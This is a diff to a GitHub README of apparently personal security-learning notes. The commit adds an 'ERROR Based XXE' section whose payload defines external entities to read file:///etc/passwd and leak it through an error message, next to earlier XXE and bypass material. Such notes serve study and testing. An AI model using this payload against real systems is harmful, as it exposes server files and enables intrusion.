

Before and after one commit to anilarelli/Learning, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -729,6 +729,17 @@ formatting.dtd:
 <specifications>&file;</specifications>
 
 ```
+
+## ERROR Based XXE
+
+```python
+
+	<!ENTITY % payload SYSTEM “file:///etc/passwd”>
+<!ENTITY % param1 ‘<!ENTITY % external SYSTEM “file:///nothere/%payload;”>’> %param1; %external;
+
+```
+
+
 ## BYPASS
 
 ###  Special Characters and Linefeed
````
